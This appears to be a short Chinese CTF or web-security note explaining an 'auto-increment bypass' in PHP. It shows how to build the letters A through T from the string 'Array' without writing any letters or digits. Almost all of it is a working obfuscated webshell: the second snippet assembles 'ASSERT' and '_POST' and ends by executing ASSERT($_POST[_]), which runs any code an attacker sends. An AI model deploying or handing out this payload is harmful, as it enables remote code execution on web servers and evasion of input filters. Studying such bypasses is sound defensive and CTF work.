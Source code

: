 #### 自增运算绕过

获取字母A a然后自增获取其他字母

```php
<?php
$_ = [].'';
echo $_[$__];#$__不存在，相当于0
?>
```

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
